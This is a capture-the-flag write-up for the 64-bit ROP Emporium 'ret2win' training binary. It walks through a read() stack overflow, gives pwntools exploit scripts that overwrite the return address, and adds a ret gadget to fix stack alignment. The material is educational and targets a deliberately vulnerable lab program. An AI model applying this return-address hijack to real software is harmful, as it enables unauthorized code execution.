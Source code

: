 # ret2win - 64 Bit
Program execution:
```
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> <input_here>
```
Run checksec: `checksec ./ret2win`
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Identify useful symbols: `objdump -t ret2win`
```
00000000004006e8 l     F .text  000000000000006e              pwnme
0000000000400756 l     F .text  000000000000001b              ret2win
```
`pwnme` and `ret2win` seem interesting, so we'll make a mental note to look out for them when reverse engineering the binary.

Disassembling reveals that `main` calls `pwnme`
An analysis of `pwnme` shows a call to `read` that allows the unsafe reading of `0x38` bytes into a buffer at `rbp-0x20`:
```assembly
lea     rax, [rbp-0x20 {var_28}]
mov     edx, 0x38
mov     rsi, rax {var_28}
mov     edi, 0x0
call    read
```
Since address are 8 bytes, the return address for 64-bit programs is stored at `rbp+0x8`. We can clearly overwrite the return address to control code flow.

Examining `ret2win` shows that it run `system('/bin/cat flag.txt')` so this is the function that we want to return into:
```assembly
0040075f  puts(str: "Well done! Here's your flag:")
00400770  return system(line: "/bin/cat flag.txt")
```
So we want to fill the address space from `rbp-0x20` to `rbp+0x8` (`0x28 bytes`) with filler data, before writing the address of `ret2win` which is the function we want to return into.

Current exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./ret2win"

p = process(PROG_NAME)
elf = p.elf

if args.ATTACH:
	gdb.attach(p, '''break main''')

p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)
payload += p64(elf.symbols['ret2win'])

p.sendline(payload)

p.interactive()
```

But if we run this script we get the following output:
```
Thank you!
Well done! Here's your flag:
[*] Got EOF while reading in interactive
$
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 773)
[*] Got EOF while sending in interactive
```

We can tell that code execution was hijacked, since the "Here's your flag" message was printed, but the actual flag is missing. Why is that?

Well, a part of the 64-bit calling convention is to maintain a 16-byte stack alignment. Later versions of GLIBC (as of 2.27 I believe, but don't quote me) will use the `movaps` to push data onto the stack, which works with a quadword (16 bytes) at a time. As a result, the memory operands used by `movaps` must be aligned to a 16-byte boundary to avoid a general-protection exception. 

Given the stack pointer must be a multiple of 8 (size of registers), failing to meet the requirement of a 16-byte boundery, means the stack pointer is aligned to 8 bytes.

We can work around this with a `ret;` gadget that will increment the stack pointer by 8, achieving the required alignment.

New exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./ret2win"

p = process(PROG_NAME)
elf = p.elf

if args.ATTACH:
	gdb.attach(p, '''break main''')

p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)
# additional ret for 16 byte alignment
payload += p64(next(elf.search(asm('ret'))))
payload += p64(elf.symbols['ret2win'])

p.sendline(payload)

p.interactive()
```

And this time, running the script gets us our flag:
```
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

